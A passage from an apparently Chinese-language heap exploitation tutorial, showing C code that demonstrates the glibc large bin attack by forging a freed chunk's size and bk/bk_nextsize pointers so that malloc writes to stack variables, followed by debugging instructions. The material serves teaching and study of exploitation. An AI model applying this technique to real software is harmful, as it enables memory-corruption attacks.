 ```c
                    " [ %p <--> %p ]\n\n",
            (void *)(p3 - 2), (void *)(p3[0]));

    //------------VULNERABILITY-----------

    fprintf(stderr, "Now emulating a vulnerability that can overwrite the freed second large chunk's \"size\""
                    " as well as its \"bk\" and \"bk_nextsize\" pointers\n");
    fprintf(stderr, "Basically, we decrease the size of the freed second large chunk to force malloc to insert the freed third large chunk"
                    " at the head of the large bin freelist. To overwrite the stack variables, we set \"bk\" to 16 bytes before stack_var1 and"
                    " \"bk_nextsize\" to 32 bytes before stack_var2\n\n");

    p2[-1] = 0x3f1;
    p2[0] = 0;
    p2[2] = 0;
    p2[1] = (unsigned long)(&stack_var1 - 2);
    p2[3] = (unsigned long)(&stack_var2 - 4);

    //------------------------------------

    malloc(0x90);

    fprintf(stderr, "Let's malloc again, so the freed third large chunk being inserted into the large bin freelist."
                    " During this time, targets should have already been rewritten:\n");

    fprintf(stderr, "stack_var1 (%p): %p\n", &stack_var1, (void *)stack_var1);
    fprintf(stderr, "stack_var2 (%p): %p\n", &stack_var2, (void *)stack_var2);

    return 0;
}

```



编译完以后，注意！一定要用 glibc2.25 的 loader，改变 loader 的方法可以看这里：https://www.jianshu.com/p/1a966b62b3d4





pwngdb 走起，开始我们的分析之旅：



![](./figure/large_bin_attack/large_bin_attack1.png)
